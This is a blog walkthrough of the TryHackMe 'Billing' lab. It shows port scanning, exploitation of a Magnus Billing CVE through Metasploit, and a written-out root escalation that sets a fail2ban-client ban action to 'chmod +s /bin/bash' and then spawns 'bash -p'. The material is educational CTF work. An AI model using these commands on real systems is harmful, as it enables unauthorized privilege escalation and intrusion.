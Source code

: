 ```yaml
---
title: Write-up — Billing
date: 2025-07-16 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf]
image: 'assets/img/articles/Billing.png'
description: "Explore my step-by-step guide to the TryHackMe Billing room. Learn how to perform reconnaissance with RustScan and Nmap, exploit web app vulnerabilities, and escalate privileges using Fail2Ban. Perfect for cybersecurity enthusiasts and professionals."
---
```


> Walkthrough of room Billing from TryHackMe :
> https://tryhackme.com/room/billing

This room is designed to teach you about billing systems and how to exploit them. It covers various aspects of billing, including vulnerabilities, exploitation techniques, and privilege exploitation.

---

## Recon

We will start by some recon...
![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExaG14ejdmY3dhd283Nm1obGswNGFuZDZvYmxndno5NXE5NXkzaWFmNiZlcD12MV9naWZzX3NlYXJjaCZjdD1n/i9cngh3Kw09GxlsrFP/giphy.gif)

```bash
$ rustscan -a $TARGET        
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/hisoka/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.127.112:22
Open 10.10.127.112:80
Open 10.10.127.112:3306
Open 10.10.127.112:5038

...

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
5038/tcp open  unknown syn-ack ttl 63
```

We need to uncover the unknown service.

```bash
$ nmap -sC -sV $TARGET -p5038
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-15 17:15 CEST
Nmap scan report for billing.thm (10.10.127.112)
Host is up (0.14s latency).

PORT     STATE SERVICE  VERSION
5038/tcp open  asterisk Asterisk Call Manager 2.10.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

![You said asterix](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXU1eTFkMHB4bDRtbHc4OXlueXhhYnFodTRyNGN4OXozczE0MDhubSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/1Md9azxcgIyQ/giphy.gif){: w="500"}
_You said Asterix!!!_

So we have 4 services running:

| Port | Service  | Purpose  |
| ---- | -------- | -------- |
| 22   | ssh      |          |
| 80   | http     | Web      |
| 3306 | mysql    | Database |
| 5038 | asterisk | VoIP     |

Let's check the web page. It seems, we have a web application running on the server.

![Login page](assets/img/2025-07-16-THM-Billing/magnus-login-page.png){: w="600"}

The web page url contains the term *mbilling* (`/mbilling`). Probably link to a payment feature or something like that.
A quick search on Google help me to discover the name of the web app called **Magnus Billing** (same logo, use Asterisk can't be wrong).

![](assets/img/2025-07-16-THM-Billing/mbilling-google.png){: w="600"}

A great new is we have a cve (**CVE-2023-30258**) for our web app.

![](assets/img/2025-07-16-THM-Billing/exploit-db.png){: w="600"}

![](assets/img/2025-07-16-THM-Billing/metasploit-magnus-search.png){: w="600"}

And it's also available on metasploit!!!
 ![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExa2Q0ZTZkZmlwMDZiZXZlNXU1Y2M3dW8wYWcwZDZuZzk1b2pqem95eCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/BYul6RujgoRCryuCdL/giphy.gif){: w="500"}

A little config on the exploit to make it work.
![](assets/img/2025-07-16-THM-Billing/meterpreter-session.png){: w="600"}

## Initial access

```bash
$ whoami
whoami
asterisk

$ ls /home
ls /home
debian	magnus	ssm-user

$ ls /home/magnus
ls /home/magnus
Desktop    Downloads  Pictures	Templates  user.txt
Documents  Music      Public	Videos

$ cat /home/magnus/user.txt
cat /home/magnus/user.txt
THM{********************************}
```

And voila!

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeXA2Z210MXB4bzBsODVwNmxreXYzNWQzaW10MXR1ODA5eWpuZDZhYSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/kxUhZ0TY46X1Dk48ru/giphy.gif){: w="500"}

## Privilege escalation

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-127-112:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-127-112:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

That means we can execute **`fail2ban-client`** with **sudo** rights.

Let's explain few things about **`fail2ban`**. Fail2Ban is an open-source intrusion prevention software framework designed to protect computer servers from brute-force attacks and other automated threats. Its primary purpose is to enhance the security of a system by monitoring log files for suspicious activity and **taking automated actions** to mitigate potential threats. For example, if a suspicious IP tries to connect to ssh server by brute-forcing the password, fail2ban can block the IP based on a criteria (like 10 connexion attempts).
So we can abuse `fail2ban-client` by setting an evil automated actions.

```bash
$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

$ sudo /usr/bin/fail2ban-client set sshd addaction evil
sudo /usr/bin/fail2ban-client set sshd addaction evil
evil

$ sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set sshd action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash

$ sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4
sudo /usr/bin/fail2ban-client set sshd banip 1.2.3.4

$ /bin/bash -p
/bin/bash -p

bash-5.2# whoami
whoami
root
```

**Explanation**

- *Listing Jails*: The `status` command lists all active jails managed by Fail2Ban.
- *Adding an Action*: The `addaction` command adds a new action to the specified jail.
- *Setting the Payload*: The `actionban` command sets the script or command to be executed when an IP is banned.
- *Triggering the Payload*: The `banip` command triggers the `actionban` script, executing your payload with elevated privileges.
- `chmod +s /bin/bash`: sets the setuid bit on the Bash executable, allowing users to run it with the permissions of its owner, typically root.
- `/bin/bash -p`: to start a Bash shell with root privileges. The `-p` option ensures that the shell retains the elevated privileges.

```bash
bash-5.2$ whoami
whoami
root

bash-5.2$ ls /root
ls /root
filename  passwordMysql.log  root.txt

bash-5.2$ cat /root/root.txt
cat /root/root.txt
THM{********************************}
```

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExazBncDNpcTIxaTQ0N3E4Njhjb2NhZWQwdXhxOGxqamdhbmdocTJyeSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/STrEzUEFPWLsY/giphy.gif){: w="500"}

All flags down, mission passed.

Be proud of what you’ve accomplished.

![](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExejBueW15czhhbm82bGZydWlmbjc2ZHJxdHZ0eHE3MjAwNDhjZWh5OSZlcD12MV9naWZzX3NlYXJjaCZjdD1n/Ju7l5y9osyymQ/giphy.gif){: w="500"}

See you soon!

> “Cybersecurity is a continuous cycle of protection, detection, response, and recovery.” — Chris Painter

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>